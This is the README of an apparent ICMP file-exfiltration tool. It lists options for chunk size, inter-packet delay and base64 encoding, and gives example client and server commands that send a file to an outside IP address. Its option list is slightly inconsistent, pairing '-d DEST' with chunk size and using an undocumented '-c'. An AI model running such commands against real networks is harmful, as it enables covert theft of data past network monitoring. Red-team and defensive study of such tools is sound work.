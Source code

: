 # icmpExfil

## Options
* `-h` Help, show all options
* `-f FILE` File to exfiltrate
* `-d DEST` Chunk size to split the file into (max of 1508)
* `-s SLEEP` Time, in miliseconds, to wait between packets. Useful to make a file take longer to send.
* `-e ENCODING` Encoding to use on data file being sent. Base64 is the only one supported
* `-v VERBOSE` Print helpful information as the file is being sent. True by default.

## Example Usage

**client:** sudo ./icmp_exfil_client.py -f ./myFile -d 128.237.11.23 -c 100 -s 1000 -e base64

**server:** sudo ./icmp_exfil_server.py -e base64

